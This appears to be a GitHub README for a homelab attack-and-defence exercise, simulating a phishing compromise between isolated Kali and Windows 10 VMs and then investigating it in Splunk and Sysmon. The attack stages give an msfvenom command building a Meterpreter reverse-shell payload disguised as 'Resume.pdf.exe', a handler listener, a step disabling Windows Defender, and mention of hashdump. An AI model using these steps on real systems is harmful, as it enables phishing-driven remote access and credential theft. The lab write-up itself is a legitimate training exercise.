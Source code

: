 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it. This documentation covers the setup, configuration, attack simulation, investigation, and remediation steps, providing a thorough demonstration of attack and defence skills in a controlled lab environment.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Network > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command](./assets/pingtest.png)

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   ![Nmap scan results](./assets/nmap.png)

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your_IP> lport=4444 -f exe -o Resume.pdf.exe
   ![malware created](./assets/msfresume.png)

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   ![Screenshot of phishing email](./assets/mail.png)

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost <Your_IP>
   set lport 4444
   options
   exploit
   ```
![msf consoole](./assets/msfconsole.png)
### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.
![malware running](./assets/malware-runing.png)
### Step 3: Access the Victim Machine
- Connection established 
![connection establish](./assets/connection.png)

- use `shell` to execute commands on victim machine
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10
- Ran `index="main" resume` to get related logs for malware file
![search](./assets/Splunk%20search.png)
- Ran `index="main" 192.168.100.101` to get all entries going to attacker ip
![search](./assets/Splunk-dest_ip.png)
- Fist log after malware execution
![search](./assets/Splunk-first-log.png)

- Below are some findings after Investigating splunk logs
   - **Malware file:** Resume.pdf.exe
   - **Destination/Attacker ip:** 192.168.100.101
   - **Process Id:** 1408
   - **Attack time:** 28/10/2024 at 4:24 PM

### 3. Malware Removal and Remediation

- Terminate the malicious process by `END Task`in Task manager.
- Delete the malware executable from Download location.
- Delete phishing mail
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

